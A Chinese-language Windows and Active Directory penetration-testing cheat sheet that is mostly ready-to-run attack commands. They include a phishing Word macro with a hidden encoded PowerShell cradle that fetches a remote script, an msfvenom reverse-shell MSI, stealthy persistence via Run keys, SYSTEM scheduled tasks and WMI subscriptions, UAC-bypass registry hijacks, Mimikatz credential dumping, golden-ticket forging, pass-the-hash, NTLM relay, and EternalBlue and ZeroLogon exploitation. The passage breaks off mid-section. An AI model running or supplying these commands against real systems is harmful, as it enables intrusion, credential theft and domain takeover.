



# Windows安全渗透测试全技巧

> 从信息收集到域控提权，全面覆盖Windows渗透测试技术栈

---

## 一、Windows安全基础

### 1.1 Windows安全模型演进

| 版本 | 安全模型 | 核心变化 |
|:----|:---------|:---------|
| Windows NT 4.0 | 域模型 | NTLM认证 |
| Windows 2000 | Active Directory | Kerberos引入 |
| Windows XP/2003 | 安全中心 | ICF/Windows Update |
| Windows Vista/2008 | UAC/Mandatory Integrity | UAC引入、完整性级别 |
| Windows 7/2008 R2 | AppLocker/BitLocker | 应用控制策略 |
| Windows 8/2012 | Secure Boot/ELAM | 启动安全/UEFI |
| Windows 10/2016+ | Credential Guard/Device Guard | 虚拟化安全/VBS |
| Windows 11/2022+ | Pluton/TPM 2.0强制 | 硬件安全堆栈 |

### 1.2 核心安全组件

#### SAM (Security Account Manager)
- 存储本地用户密码hash
- 位置: `C:\Windows\System32\config\SAM`
- 加密: SysKey + 加盐hash
- 在线不可读 → 需卷影拷贝或内存提取

#### NTDS.dit
- AD域控的数据库文件
- 包含所有域用户的hash/组/策略
- 位置: `C:\Windows\NTDS\NTDS.dit`
- 通过卷影拷贝/DCsync/ntdsutil提取

#### LSASS (Local Security Authority Subsystem Service)
- 进程: `lsass.exe`
- 负责认证策略、登录验证
- 存储用户凭证（明文/Kerberos ticket/NTLM hash）
- 目标攻击: Mimikatz凭证转储

#### SID (Security Identifier)
```
S-1-5-21-3623811015-3361044348-30300820-1013
^ ^ ^ ^^^^^^^^^^^^^ ^^^^^^^^^^^^^ ^^^^^^^^^ ^^^^
| | |       |              |           |     RID
| | |       |              |           相对标识符
| | |       |              域标识符
| | |       SID版本号
| | 局部权威
| 权威标识符
(修订级别)
```

常见SID:
| SID | 用户/组 |
|:----|:--------|
| S-1-0-0 | NULL SID |
| S-1-1-0 | Everyone |
| S-1-5-11 | Authenticated Users |
| S-1-5-18 | LOCAL SYSTEM |
| S-1-5-19 | NT AUTHORITY\LocalService |
| S-1-5-20 | NT AUTHORITY\NetworkService |
| S-1-5-32-544 | Administrators |
| S-1-5-32-545 | Users |
| S-1-5-32-546 | Guests |
| S-1-5-32-547 | Power Users |
| S-1-5-32-548 | Account Operators |
| S-1-5-32-549 | Server Operators |
| S-1-5-32-550 | Print Operators |
| S-1-5-32-551 | Backup Operators |

#### RID (Relative ID)
- SID的最后一段
- 500: Administrator (内置)
- 501: Guest
- 502: krbtgt
- 1000+: 普通用户

#### ACE/ACL
- ACL (访问控制列表): 附加到对象的权限列表
- ACE (访问控制条目): ACL中的单个条目
- DACL: 自主访问控制列表（谁可做什么）
- SACL: 系统访问控制列表（审计日志）

### 1.3 用户态 vs 内核态

```
Ring 0 (Kernel Mode)
├── NTOSKRNL.EXE (操作系统内核)
├── HAL.DLL (硬件抽象层)
├── 设备驱动
└── 安全关键进程 (LSASS, Winlogon)

Ring 3 (User Mode)
├── 应用程序
├── 服务进程 (SVCHOST.EXE)
├── 子系统 (CSRSS, WIN32K.SYS)
└── 用户登录会话
```

### 1.4 攻击链条概览



---

## 二、信息收集与侦察

### 2.1 系统信息

```powershell
# 系统基本信息
systeminfo | findstr /B /C:"OS" /C:"Domain" /C:"System" /C:"Hotfix"
wmic os get Caption,CSName,OSArchitecture,Version,BuildNumber
wmic computersystem get Domain,Name,Manufacturer,Model
wmic cpu get Name,NumberOfCores,NumberOfLogicalProcessors

# 补丁信息
wmic qfe get Description,HotFixID,InstalledOn
Get-HotFix | Format-Table

# 环境变量
set
Get-ChildItem Env: | Format-Table

# 系统时间/时区
wmic timezone get Caption
tzutil /g
```

### 2.2 用户信息

```powershell
# 本地用户
net user
wmic useraccount get Name,SID,FullName,Disabled,Lockout,LocalAccount
Get-LocalUser | Format-Table

# 本地组
net localgroup
Get-LocalGroup | Format-Table

# 组成员
net localgroup Administrators
Get-LocalGroupMember Administrators

# 当前用户/权限
whoami /all
whoami /priv
whoami /groups

# 登录会话
query user
qwinsta
net sessions
```

### 2.3 网络信息

```powershell
# 网络配置
ipconfig /all
Get-NetIPAddress | Format-Table
Get-NetAdapter | Format-Table

# 路由表
route print
Get-NetRoute | Format-Table

# ARP表
arp -a
Get-NetNeighbor | Format-Table

# DNS缓存
ipconfig /displaydns
Get-DnsClientCache

# 活跃连接
netstat -ano
Get-NetTCPConnection | Format-Table

# 防火墙规则
netsh advfirewall firewall show rule name=all
Get-NetFirewallRule | Format-Table

# 共享
net share
Get-SmbShare
```

### 2.4 进程与服务

```powershell
# 进程列表
tasklist /v
Get-Process | Format-Table -AutoSize

# 进程详细信息
tasklist /v /fo csv
Get-Process | Select-Object Name,Id,StartTime,Path,Company

# 服务
wmic service get Name,DisplayName,PathName,StartName,State
Get-Service | Format-Table

# 计划任务
schtasks /query /fo LIST /v
Get-ScheduledTask | Format-Table

# 驱动
driverquery /v
Get-WindowsDriver -Online
```

### 2.5 持久化机制检查

```powershell
# 启动项
wmic startup get Caption,Command,Location
Get-CimInstance Win32_StartupCommand

# 服务
wmic service where "StartMode='Auto'" get Name,DisplayName,PathName,StartName

# 计划任务
schtasks /query /fo LIST /v | findstr "Task To Run"

# 注册表Run键
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices

# WMI事件订阅
Get-WmiObject -Namespace root\subscription -Class __EventFilter
Get-WmiObject -Namespace root\subscription -Class __EventConsumer
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
```

### 2.6 防病毒检测

```powershell
# Windows Defender
Get-MpComputerStatus
Get-MpPreference

# 防病毒产品 (WMI)
wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState

# AppLocker
Get-AppLockerPolicy -Local
Get-AppLockerFileInformation

# 日志
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-AppLocker/EXE and DLL'}
```

### 2.7 域侦察

```powershell
# 域信息
nltest /dsgetdc:DOMAIN
nltest /domain_trusts

# AD用户
net user /domain
net user username /domain

# AD组
net group /domain
net group "Domain Admins" /domain

# 域信任
nltest /domain_trusts

# 组策略
gpresult /r
gpresult /h gp.html
```

### 2.8 使用工具

```powershell
# PowerView
Import-Module PowerView.ps1
Get-NetUser
Get-NetComputer
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Domain Admins"
Find-LocalAdminAccess
Invoke-UserHunter

# BloodHound数据收集
Invoke-BloodHound -CollectionMethod All

# SharpHound
.\SharpHound.exe -c All
```

---

## 三、初始访问

### 3.1 钓鱼攻击

#### 宏钓鱼 (VBA)
```vba
' Word/PowerPoint 宏
Sub AutoOpen()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell -NoP -NonI -W Hidden -Exec Bypass -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxAC8AYwBvAG0AbQBvAG4AZAAuAHAAbwBsACcAKQA='
End Sub
```

#### ISO/LNK钓鱼
```powershell
# ISO文件包含payload
# 使用 AnyBurn/PowerISO 创建ISO
# 包含: shortcut.lnk → cmd /c powershell ...

# LNK文件创建
$wshell = New-Object -ComObject WScript.Shell
$shortcut = $wshell.CreateShortcut("update.lnk")
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -EncodedCommand SQBFAFg..."
$shortcut.IconLocation = "%SystemRoot%\System32\shell32.dll,3"
$shortcut.Save()
```

#### SettingContent-ms钓鱼
```xml
<?xml version="1.0" encoding="UTF-8"?>
<PCSettings>
  <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
    <Application>
      <Path>powershell.exe</Path>
      <Arguments>-NoP -NonI -W Hidden -Exec Bypass -Enc SQBFAFgA...</Arguments>
    </Application>
  </SearchableContent>
</PCSettings>
```

### 3.2 初始访问持久化

```powershell
# 注册表Run
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "powershell.exe -NoP -W Hidden -Enc ..."

# 计划任务
schtasks /create /tn "SystemCheck" /tr "powershell.exe -Enc ..." /sc onlogon /ru SYSTEM /rl HIGHEST

# 服务创建 (需管理员)
sc create "UpdateService" binPath="cmd /c powershell.exe -Enc ..." start=auto

# WMI事件订阅
# 1. 创建事件过滤器
$filterArgs = @{
    Namespace = 'root\subscription'
    ClassName = '__EventFilter'
    Arguments = @{
        Name = 'SystemMonitor'
        QueryLanguage = 'WQL'
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    }
}
$filter = Set-WmiInstance @filterArgs

# 2. 创建事件消费者
$consumerArgs = @{
    Namespace = 'root\subscription'
    ClassName = 'CommandLineEventConsumer'
    Arguments = @{
        Name = 'SystemMonitorConsumer'
        CommandLineTemplate = "powershell.exe -Enc SQBFAFgA..."
    }
}
$consumer = Set-WmiInstance @consumerArgs

# 3. 绑定过滤器和消费者
$bindingArgs = @{
    Namespace = 'root\subscription'
    ClassName = '__FilterToConsumerBinding'
    Arguments = @{
        Filter = $filter
        Consumer = $consumer
    }
}
$binding = Set-WmiInstance @bindingArgs

# Startup folder
$startup = [Environment]::GetFolderPath('Startup')
Copy-Item "payload.exe" "$startup\svchost.exe"
```

### 3.3 漏洞利用

#### MS17-010 (EternalBlue)
```bash
# SMB漏洞利用
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.1.100
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > exploit
```

#### SMBGhost (CVE-2020-0796)
```bash
# SMBv3压缩漏洞
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
msf6 > set RHOSTS 192.168.1.100
msf6 > exploit
```

#### ZeroLogon (CVE-2020-1472)
```bash
# DC域控提权
git clone https://github.com/SecuraBV/CVE-2020-1472
python3 zerologon_tool.py -target 192.168.1.10 DC-NAME
```

### 3.4 WEB攻击

```bash
# RDP爆破
ncrack -v -f -u administrator -P passwords.txt rdp://192.168.1.100

# Tomcat弱密码
hydra -l tomcat -P passwords.txt 192.168.1.100 http-post-form "/manager/html:j_username=^USER^&j_password=^PASS^:F=Login failed"

# SMB枚举
enum4linux -a 192.168.1.100
smbclient -L //192.168.1.100
```

---

## 四、权限提升

### 4.1 自动提权检查

```powershell
# WinPEAS
.\winpeas.exe

# PowerUp
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Sherlock
Import-Module .\Sherlock.ps1
Find-AllVulns

# Watson
.\Watson.exe

# PrivescCheck
. .\PrivescCheck.ps1
Invoke-PrivescCheck

# JAWS
. .\jaws-enum.ps1
```

### 4.2 内核漏洞提权

```powershell
# 检查补丁
wmic qfe get Description,HotFixID,InstalledOn
systeminfo

# 查找缺失补丁
# 常用内核提权
# MS16-032: Secondary Logon Handle
# MS16-135: Win32k
# MS17-010: SMB
# CVE-2019-0808: Win32k
# CVE-2021-1732: Win32k
# CVE-2021-40449: Win32k
# CVE-2022-21882: Win32k
# CVE-2023-21768: AFD.sys

# Potato家族 (Service账户提权)
# - JuicyPotato (Windows 7/8/2008/2012)
# - RoguePotato (Windows 10/2016+)
# - SweetPotato
# - GodPotato (Windows 10/11/2019/2022)

# 使用JuicyPotato
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c whoami" -t *
```

### 4.3 服务提权

```powershell
# 可写入服务路径
wmic service get Name,DisplayName,PathName,StartName
Get-CimInstance Win32_Service | Select Name,PathName,StartName

# 检查可写权限
icacls "C:\Program Files\VulnerableService\service.exe"
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# 未引用的服务路径
# 例: "C:\Program Files\My App\service.exe"
# 可创建 C:\Program.exe 或 C:\Program Files\My.exe

# 服务权限配置错误
# 启动/停止/修改服务
sc stop VulnerableService
sc config VulnerableService binPath="cmd /c net localgroup Administrators user /add"
sc start VulnerableService

# 使用PowerUp
Invoke-ServiceAbuse -Name 'VulnerableService' -Command "net localgroup Administrators user /add"
```

### 4.4 Token提权

```powershell
# 查看可用特权
whoami /priv

# 关键特权
# SeImpersonatePrivilege - 模拟用户
# SeAssignPrimaryTokenPrivilege - 分配主令牌
# SeCreateTokenPrivilege - 创建令牌
# SeDebugPrivilege - 调试进程
# SeBackupPrivilege - 备份文件和目录
# SeRestorePrivilege - 恢复文件和目录
# SeTakeOwnershipPrivilege - 取得所有权
# SeLoadDriverPrivilege - 加载卸载驱动

# Token劫持 (Incognito)
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"

# RottenPotato
RottenPotato.exe
```

### 4.5 UAC绕过

```powershell
# UAC级别检查
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

# 0 = 静默提升 (无UAC)
# 1 = 安全桌面提示凭据
# 2 = 安全桌面提示同意 (默认)
# 3 = 非安全桌面提示凭据
# 4 = 非安全桌面提示同意
# 5 = 直接拒绝提升

# UAC绕过方法 (需用户账户在管理员组)
# 1. fodhelper
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d ""
reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "powershell.exe -Enc ..."
Start-Process "C:\Windows\System32\fodhelper.exe"

# 2. eventvwr
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "powershell.exe -Enc ..."
Start-Process "C:\Windows\System32\eventvwr.exe"

# 3. sdclt
reg add HKCU\Software\Classes\exefile\shell\runas\command /d "cmd /c powershell.exe -Enc ..."
Start-Process "C:\Windows\System32\sdclt.exe"

# 4. computerdefaults
reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "powershell.exe -Enc ..."
Start-Process "C:\Windows\System32\computerdefaults.exe"

# 5. 自动提权 (AutoElevate)
# 使用系统自带的自动提权二进制
# cmstp.exe, autoelevate.dll, etc.
```

### 4.6 AlwaysInstallElevated

```powershell
# 检查注册表 (两个都必须为1)
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 生成恶意MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f msi -o evil.msi

# 安装
msiexec /quiet /qn /i evil.msi
```

### 4.7 可写目录提权

```powershell
# 检查PATH目录可写
# 每个用户PATH优先于系统PATH
# 可放置伪造的system32命令

# 常见可写目录
# C:\Windows\Temp
# C:\Temp
# C:\Users\Public
# C:\ProgramData
# C:\Windows\Tasks

# DLL劫持
# 使用Process Monitor查找缺失DLL
# 将恶意DLL放在可写目录
# 命名与服务/应用加载的DLL一致
```

---

## 五、横向移动

### 5.1 PsExec

```bash
# PsExec
PsExec.exe \\TARGET -u DOMAIN\User -p Password cmd.exe

# Impacket PsExec
impacket-psexec DOMAIN/User:Password@TARGET

# Metasploit PsExec
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS 192.168.1.101
msf6 > set SMBUser Administrator
msf6 > set SMBPass password
msf6 > exploit
```

### 5.2 WMI

```powershell
# WMI远程执行
wmic /node:TARGET /user:DOMAIN\User /password:Password process call create "cmd.exe /c whoami > C:\temp\out.txt"

# PowerShell WMI
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User", (ConvertTo-SecureString "Password" -AsPlainText -Force))
Invoke-WmiMethod -ComputerName TARGET -Credential $cred -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Enc ..."

# CIM Session
$session = New-CimSession -ComputerName TARGET -Credential $cred
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="powershell.exe -Enc ..."}
```

### 5.3 WinRM

```powershell
# 检查WinRM可用
Test-WSMan -ComputerName TARGET

# WinRM会话
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User", (ConvertTo-SecureString "Password" -AsPlainText -Force))
$session = New-PSSession -ComputerName TARGET -Credential $cred
Invoke-Command -Session $session -ScriptBlock { whoami }

# 使用WinRM复制文件
Copy-Item -Path "payload.exe" -Destination "\\TARGET\C$\temp\" -ToSession $session

# 使用Evil-WinRM
evil-winrm -i TARGET -u DOMAIN\\User -p Password
evil-winrm -i TARGET -u User -H NTLM_HASH
```

### 5.4 计划任务

```cmd
# 远程创建计划任务
schtasks /create /s TARGET /u DOMAIN\User /p Password /tn "Update" /tr "powershell.exe -Enc ..." /sc once /st 00:00 /ru SYSTEM /rl HIGHEST
schtasks /run /s TARGET /u DOMAIN\User /p Password /tn "Update"
schtasks /delete /s TARGET /u DOMAIN\User /p Password /tn "Update" /f
```

### 5.5 SCM (服务控制管理器)

```cmd
# 远程服务创建
sc \\TARGET create "UpdateService" binPath="cmd /c powershell.exe -Enc ..."
sc \\TARGET start "UpdateService"
sc \\TARGET delete "UpdateService"
```

### 5.6 DCOM

```powershell
# DCOM执行
$computer = "TARGET"
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User", (ConvertTo-SecureString "Password" -AsPlainText -Force))

# MMC20.Application
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", $computer))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami > C:\temp\out.txt", "7")

# ShellWindows
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", $computer))

# ExcelDDE
$com = New-Object -ComObject Excel.Application -ComputerName $computer -Credential $cred
$com.DisplayAlerts = $false
$com.DDEInitiate("cmd", "/c whoami > C:\temp\out.txt")
```

### 5.7 哈希传递 (PtH)

```bash
# Impacket wmiexec (NTLM hash)
impacket-wmiexec -hashes LMHASH:NTHASH DOMAIN/User@TARGET

# Impacket psexec (NTLM hash)
impacket-psexec -hashes LMHASH:NTHASH DOMAIN/User@TARGET

# Mimikatz 哈希传递
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe

# Invoke-TheHash
Invoke-TheHash -Type WMIExec -Target TARGET -Username DOMAIN\User -Hash NTHASH
Invoke-TheHash -Type SMBExec -Target TARGET -Username DOMAIN\User -Hash NTHASH
```

### 5.8 票据传递 (PtT)

```mimikatz
# 从LSASS中提取Kerberos票证
sekurlsa::tickets /export

# 使用票证
kerberos::ptt [0;12bd0]-0-0-40a10000-Administrator@krbtgt-DOMAIN.LOCAL.kirbi

# 验证
klist
```

### 5.9 Over Pass-The-Hash

```mimikatz
# 从NTLM hash生成Kerberos票证
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe

# 在新的cmd中
klist
dir \\DC\C$
```

### 5.10 横向移动方式对比

| 方式 | 端口 | 需要 | 特征 | 检测难度 |
|:----|:---:|:----|:----|:-------:|
| PsExec | 445/TCP | 管理员权限 | 创建服务 | 中 |
| WMI | 135/TCP | 管理员权限 | DCOM活动 | 中 |
| WinRM | 5985/5986 | 管理员权限+启用 | PowerShell | 高 |
| 计划任务 | 445/TCP | 管理员权限 | 文件+调度 | 中 |
| SCM | 445/TCP | 管理员权限 | 创建服务 | 中 |
| DCOM | 135/TCP | 管理员权限 | DCOM调用 | 中 |

---

## 六、域渗透基础

### 6.1 Active Directory 架构



### 6.2 域用户类型

| 类型 | 描述 | 特权 |
|:----|:-----|:-----|
| Domain Users | 普通域用户 | 基本访问 |
| Domain Admins | 域管理员 | 完全管理 |
| Enterprise Admins | 企业管理员 | 林级别管理 |
| Schema Admins | 架构管理员 | 架构修改 |
| Server Operators | 服务器操作员 | 域控登录/关闭 |
| Account Operators | 账号操作员 | 用户/组管理 |
| Print Operators | 打印操作员 | 打印机管理 |
| Backup Operators | 备份操作员 | 文件备份/还原 |

### 6.3 域组

| 组 | 作用域 | 描述 |
|:---|:------|:-----|
| Domain Admins | 全局 | 域内最高管理权限 |
| Enterprise Admins | 通用 | 林范围内管理 |
| Schema Admins | 通用 | 可修改AD Schema |
| Administrators | 本地域 | 域控本地管理员组 |
| Server Operators | 本地域 | 管理域控服务器 |
| Account Operators | 本地域 | 管理域用户和组 |
| Backup Operators | 本地域 | 备份还原文件 |

---

## 七、Kerberos攻击

### 7.1 Kerberos协议流程



### 7.2 黄金票据 (Golden Ticket)

```mimikatz
# 条件: 已获取krbtgt hash
# 1. 获取krbtgt hash
lsadump::dcsync /domain:DOMAIN.LOCAL /user:krbtgt

# 2. 创建黄金票据
kerberos::golden /user:Administrator /domain:DOMAIN.LOCAL /sid:S-1-5-21-3623811015-3361044348-30300820 /krbtgt:krbtgt_hash /id:500 /groups:512 /ptt

# 3. 验证
klist
dir \\DC\C$
```

### 7.3 白银票据 (Silver Ticket)

```mimikatz
# 条件: 已获取服务账户hash
# 1. 获取服务hash (如MSSQL服务)
sekurlsa::logonpasswords

# 2. 创建白银票据 (针对特定服务)
kerberos::golden /user:Administrator /domain:DOMAIN.LOCAL /sid:S-1-5-21-3623811015-3361044348-30300820 /target:SQLSERV.DOMAIN.LOCAL /service:MSSQLSvc /rc4:service_hash /ptt

# 3. 访问服务
sqlcmd -S SQLSERV.DOMAIN.LOCAL
```

### 7.4 青铜票据 (Bronze Bit - CVE-2020-17049)

```
利用: Kerberos服务票据的sNAME不验证
条件: 配置了约束委派
影响: 可以伪造任何用户的票据访问服务
修复: KB4565503+ EnableKerbValidateSname
```

### 7.5 AS-REP Roasting

```bash
# 条件: 用户未设置Kerberos预认证 (DONT_REQUIRE_PREAUTH)
# 查询不需要预认证的用户
Get-NetUser -UACFilter DONT_REQUIRE_PREAUTH | Select samaccountname

# 提取AS-REP hash
python3 GetNPUsers.py DOMAIN.LOCAL/ -usersfile users.txt -format hashcat -outputfile hashes.txt

# 破解
hashcat -m 18200 hashes.txt wordlist.txt
john hashes.txt --wordlist=wordlist.txt
```

### 7.6 Kerberoasting

```bash
# 条件: 普通域用户可请求服务票据
# 枚举SPN账户
Get-NetUser -SPN | Select samaccountname,serviceprincipalname

# 请求TGS并导出
python3 GetUserSPNs.py DOMAIN.LOCAL/User:Password -request -outputfile hashes.txt

# 使用Rubeus
Rubeus.exe kerberoast /nowrap

# 破解
hashcat -m 13100 hashes.txt wordlist.txt
john hashes.txt --wordlist=wordlist.txt
```

### 7.7 委派攻击

```mimikatz
# 1. 无约束委派 (Unconstrained Delegation)
# 查找无约束委派的主机
Get-NetComputer -UnConstrained

# 获取TGT并转发
sekurlsa::tickets /export
Rubeus.exe monitor /interval:5 /filteruser:TARGET$

# 2. 约束委派 (Constrained Delegation)
# 查找约束委派用户
Get-DomainUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto

# 使用S4U2Self/S4U2Proxy扩展委派
Rubeus.exe s4u /user:serviceaccount /rc4:hash /impersonateuser:Administrator /msdsspn:CIFS/TARGET /ptt

# 3. 基于资源的约束委派 (RBCD)
# 条件: 拥有对计算机账户msDS-AllowedToActOnBehalfOfOtherIdentity的写权限
# PowerShell RBCD攻击
Set-DomainRBCD -Identity TARGET$ -DelegateFrom 'FAKECOMPUTER$'
```

### 7.8 Kerberos攻击对比

| 攻击 | 条件 | 结果 | 检测难度 |
|:----|:-----|:-----|:--------|
| 黄金票据 | krbtgt hash | 任意访问 | 高 (需PAC验证) |
| 白银票据 | 服务hash | 特定服务访问 | 高 (无TGS请求) |
| 青铜票据 | 约束委派 | 模拟用户访问服务 | 中 |
| AS-REP Roasting | 无预认证 | 用户hash | 中 |
| Kerberoasting | 域用户 | 服务账户hash | 低-中 |
| 无约束委派 | 配置 | 用户TGT | 低 |
| 约束委派 | 配置 | 模拟用户 | 中 |
| RBCD | 写权限 | 模拟用户 | 中-高 |
| DCSync | 域管/特殊权限 | 任意用户hash | 中 |

---

## 八、域提权与DC攻击

### 8.1 NTLM中继

```bash
# NTLM中继攻击
# 条件: SMB签名未强制
# 1. 设置中继
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell.exe -Enc ..."

# 2. 触发认证
# Responder捕获
responder -I eth0 -rdw

# 3. 等待NTLM认证自动中继到目标
```

### 8.2 MS14-068

```bash
# 漏洞: Kerberos PAC校验缺陷
# 影响: 任意域用户可提权至域管
# Python利用
python3 ms14-068.py -u user@domain.local -p password -s SID -d dc.domain.local

# Mimikatz注入票据
kerberos::ptc TGT_user@domain.local.ccache
```

### 8.3 ZeroLogon (CVE-2020-1472)

```bash
# 漏洞: NetLogon协议加密缺陷
# 影响: 域控密码置空→域控控制
# 利用
python3 zerologon_tester.py DC-NAME 192.168.1.10
python3 cve-2020-1472-exploit.py DC-NAME 192.168.1.10

# 置空后DCSync
